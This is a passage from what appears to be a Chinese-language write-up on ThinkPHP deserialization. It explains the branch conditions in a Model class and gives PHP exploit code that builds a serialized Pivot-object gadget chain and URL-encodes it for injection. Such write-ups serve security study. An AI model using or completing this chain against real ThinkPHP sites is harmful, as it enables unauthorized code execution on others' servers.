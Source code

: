 要进入第4个if判断需要满足两个条件：`$this->data `的 key 是$this->json数组的元素`$this->json=['xxx']、$this->withAttr[key] `为数组。

根据以上分析，我们继续编写exploit：

```php
<?php

namespace think;

abstract class Model

{

    private $lazySave = false;

    private $data = [];

    protected $withEvent = true;

    private $exists = false;

    private $force = false;

    protected $table;

    private $withAttr = [];

    protected $json = [];

    function __construct($obj='')

    {

        $this->lazySave = true;

        $this->data = ['xxx' => []];

        $this->withEvent = false;

        $this->exists = true;

        $this->force = true;

        $this->table = $obj;

        $this->withAttr = ['xxx' => []];

        $this->json = ['xxx'];
    }

}

namespace think\model{

    use think\Model;

    class Pivot extends Model{}

    $p = new Pivot(new Pivot());

    echo urlencode(serialize($p));

}
```